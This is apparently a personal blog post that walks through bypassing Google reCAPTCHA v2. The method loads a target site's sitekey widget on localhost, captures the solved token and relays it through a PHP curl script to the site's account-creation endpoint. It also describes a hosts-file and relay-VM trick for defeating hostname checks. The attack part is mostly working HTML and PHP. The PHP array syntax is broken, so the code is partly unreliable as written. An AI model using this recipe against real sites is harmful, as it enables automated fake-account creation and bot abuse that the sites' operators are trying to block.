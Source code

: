 ```yaml
---
layout: post
title: Bypassing RecaptchaV2
---
```


A lot of times I hear people say that they use recaptchaV2 as a way to mitigate bot traffic. We have tried the same and the results have not been pretty, just as I anticipated. RecaptchaV2 is meant to stop scripts from performing actions against an application but there is no way that a macro-recording application that is interacting with a real browser can be stopped. 

What does this mean? Well, if you have an application that replays clicking on recorded coordinates from a real browser, there is no way recaptchaV2 can solve this. In fact, let me just show you.

# Bypassing recaptchaV2
A quick bypass/automating recaptchaV2 solution is as easy as follows:

* Apache web server
* PHP script receiving the g-captcha-response
* Public sitekey for target URL

You can set up an Apache web server running on http://localhost that loads a form that loads the recaptchaV2 widget and submits the response to a PHP script. The PHP script can receive the g-recaptcha-response parameter and send that via curl to the target URL with the rest of parameters that are needed to complete the action. 

> Google by default allows you to load recaptchaV2 widgets from localhost as a 'feature' for testing. There is no way to disable this.

## Example
Let's say that you want to bypass the recaptchaV2 for http://www.targetsite.com/create_account.action endpoint. This action takes a few parameters such as:
* username
* password
* gender
* city
* zip code
* address

What you can have is an Apache server serving an html file which loads the recaptchaV2 widget with:

```html
<html>
  <head>
    <title>reCAPTCHA demo: Simple page</title>
     <script src="https://www.google.com/recaptcha/api.js" async defer></script>
  </head>
  <body>
    <form action="**script.php**" method="POST">
      <div class="g-recaptcha" data-sitekey="**TARGET_SITE_KEY**"></div>
      <br/>
      <input type="submit" value="Submit">
    </form>
  </body>
</html>
```

Then you can have a script.php file set to receive the response as:
{{{$response = $_POST['g-recaptcha-response']}}}

What it can also do is pass the rest of the parameters to the target URL as:

```php
	$url = "https://www.targetsite.com/create_account.action";
	$response = $_POST['g-recaptcha-response'];
	$fields = array(
		'g-recaptcha-response' : $response,
		'username' : 'blah',
		'password' : 'password123', #of course!
		'gender' : 'm',
		'city' : 'Chicago',
		'state' : 'IL',
		'address' : '123 Elm St'
	);
	$fields_string = "";
	foreach($fields as $key=>$value) { $fields_string .= $key.'='.$value.'&'; }
	rtrim($fields_string, '&');

	$ch = curl_init();
	curl_setopt($ch, CURLOPT_URL, $url);
	curl_setopt($ch, CURLOPT_POST, count($fields));
	curl_setopt($ch, CURLOPT_POSTFIELDS, $fields_string);
	$result = curl_exec($ch);
	curl_close($ch);
```

Bingo! That will submit a valid response to the target site with the rest of the parameters. When the target site sends the response to Google for verification, it'll receive a success of true and a hostname of 'localhost' because that's where the challenge was generated. If the site decides to perform hostname validation, then this attack will not work.

But wait... There's more!

If the site decides to perform hostname validation, this is what you can do:
* Create an /etc/hosts entry for the hostname of the target URL (www.targetsite.com)
* Have the PHP file send the response to another node (another VM) that then sends the parameters via curl.
* Hostname validation bypassed.

# References
[Google RecaptchaV2 Documentation](https://developers.google.com/recaptcha/intro)
	

